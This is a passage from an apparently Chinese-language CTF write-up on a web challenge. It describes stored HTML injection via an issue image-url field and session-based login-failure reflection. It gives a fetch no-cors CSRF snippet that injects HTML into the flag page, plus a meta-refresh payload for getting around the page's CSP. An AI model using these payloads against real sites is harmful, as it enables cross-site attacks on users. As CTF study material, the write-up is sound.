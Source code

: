 ![](https://blog-1301895608.cos.ap-guangzhou.myqcloud.com/img/20200511105935.png)



2. 在提交 issue 处的 image-url 可以闭合上下文存在 HTML 注入（存储型）



<img src="https://blog-1301895608.cos.ap-guangzhou.myqcloud.com/img/20200511110731.png" style="zoom:50%;" />

![](https://blog-1301895608.cos.ap-guangzhou.myqcloud.com/img/20200511110800.png)



3. 如果你抓包就会发现，无论登录成功与否，都会返回302，这就提示了我们题目中会利用 session 来存储提示登录失败的元素，如果使用同一个 session 先登录 ，然后再发送一次失败的登录请求，然后刷新页面，此时，该 session 的页面会变为登录失败的页面



4. 结合第一点和第三点，我们可以达到往 flag 页面进行 HTML 注入的效果（利用fetch  no-cors 请求来跨域实现 CSRF ）

```javascript
fetch("http://catalog.pwni.ng/user.php", {
	method: "POST",
	mode: "no-cors",
	credentials: "include",
	headers: {
		"content-type": "application/x-www-form-urlencoded"
	},
	body: `username=${encodeURIComponent("<marquee>Nice!</marquee>")}&password=fail&action=login`
}).then(() => {
	window.location = "http://catalog.pwni.ng/issue.php?id=3";
});

```



## CSP

```
Content-Security-Policy: 
default-src 'nonce-eKcQ8H1T+86IcYC/KNn4+Q7VbbxCOgiQ'; img-src *; font-src 'self' fonts.gstatic.com; frame-src https://www.google.com/recaptcha/
```

存在如下CSP导致无法直接XSS，这里没有限制 `base-uri`，可以使用 `<base>`标签，但是这道题的两处 HTML 注入都无法控制页面的 head 部分 ，所以该思路无法实际利用。

但是这里允许使用 `<meta>`来控制跳转

```
<meta http-equiv="refresh" content="0;URL='http://url/'" />
```





## Lettering
